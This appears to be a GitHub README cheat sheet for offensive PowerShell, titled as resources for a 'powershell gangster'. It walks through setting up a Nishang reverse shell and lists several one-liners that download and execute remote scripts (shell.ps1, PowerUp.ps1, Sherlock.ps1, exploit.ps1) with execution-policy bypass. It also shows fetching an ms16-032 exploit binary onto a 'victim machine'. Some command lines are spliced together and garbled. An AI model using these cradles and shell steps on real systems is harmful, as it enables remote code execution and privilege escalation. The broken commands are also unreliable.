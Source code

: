 
## You want to be a powershell gangster ? Here are the resources 
1. https://github.com/PowerShellMafia/PowerSploit 
2. https://github.com/samratashok/nishang

##### Powershell Reverse shell Cheets 
* Step 1. Nishang Folder
Select the appropriate module within the Nishang folder
![image](https://user-images.githubusercontent.com/57737355/90054359-9f0c3480-dc90-11ea-9313-2b0a215b17c4.png)
* Step 2. Editing Script 
Copy to appropriate folder and follow the instructions for syntax in the script. By adding this line causes the shell to automatically invoke PowershellTcp shell and send it to the listener. Replace IP and port accordingly to your needs
![image](https://user-images.githubusercontent.com/57737355/90055047-97995b00-dc91-11ea-8c7a-2d0d6ebe46d8.png)


* Step 3. Host the shell on your web server and & execute the reverse shell 
	- Host the PS reverse shell on your web server of choice. 
	- Craft an IEX object. IEX is cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command.

* Examples below 
  * powershell "IEX (New-Object Net.WebClient).DownloadString('http://IPADDRESS/shell.ps1')"
  * powershell "IEX (New-Object Net.WebClient).DownloadString('http://IPADDRESS/jaws-enum.ps1

*TIPS*
- Might need to url encode the IEX object if you're executing this in a web browser 
- You may have to play with the quotation marks on some machines, since sometimes the ' character is filtered (such as in SQL environments.)

##### PowerShell GET Scripts

![image](https://user-images.githubusercontent.com/57737355/90055586-6a997800-dc92-11ea-8729-100e746c5543.png)
PS Wget remote scripts and execute 
> c:\powershell.exe -exec bypass -C "IEX (N c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://IPADDRESS/PowerUp.ps1') ; Invoke-AllChecks"

PS Wget remote scripts and execute 
> c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://IPADDRESS:8000/powerup.ps1') ; Invoke-AllChecks"

PS Wget remote scripts and execute 
> c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://IPADDRESS:8000/Sherlock.ps1') ; Find-AllVulns"

If you have your ps1 file downloaded to the victim machine then run using this
Executing Sherlock scripts(depreciated) 
> c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

Wget exploit from remote host and executing the exploit 
> c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"ew-Object Net.WebClient).DownloadString('http://IPADDRESS/exploit.ps1') ; Invoke-exploit.ps1"


##### Powershell wget example 
![image](https://user-images.githubusercontent.com/57737355/90055487-3faf2400-dc92-11ea-85ec-2080b880fb7c.png)
Command: powershell wget "http://IPADDRESS/ms16-032.exe" -outfile "exploit.exe"
